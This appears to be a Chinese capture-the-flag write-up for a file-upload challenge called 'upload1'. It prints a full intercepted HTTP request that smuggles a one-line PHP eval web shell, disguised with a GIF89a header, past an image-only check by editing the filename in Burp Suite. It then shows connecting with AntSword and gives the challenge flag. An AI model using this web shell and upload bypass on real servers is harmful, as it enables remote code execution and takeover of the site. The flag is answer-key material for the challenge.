 ## upload1

文件上传的题

直接上传php马 存在报错 ”请上传图片“

----

### Brupsuit 绕过
shell.php 修改后缀名 为 shell.jpg 点上传 Brupsuit 抓包
```http request
POST /index.php HTTP/1.1
Host: 61.147.171.105:50756
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:50756
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY5H4NyVTt0LrOelc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:50756/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryY5H4NyVTt0LrOelc
Content-Disposition: form-data; name="upfile"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?=eval($_POST['x']);?>
------WebKitFormBoundaryY5H4NyVTt0LrOelc--
```
修改 filename = "shell.php" 后 forward
上传成功

---
### antsword 连接
![img.png](imgs/jpg_php.png)
可以看到 成功上传的php文件
![img.png](imgs/img.png)
---
### flag
$flag="cyberpeace{323a5ab98f676bc4d403f717d7a0662c}";

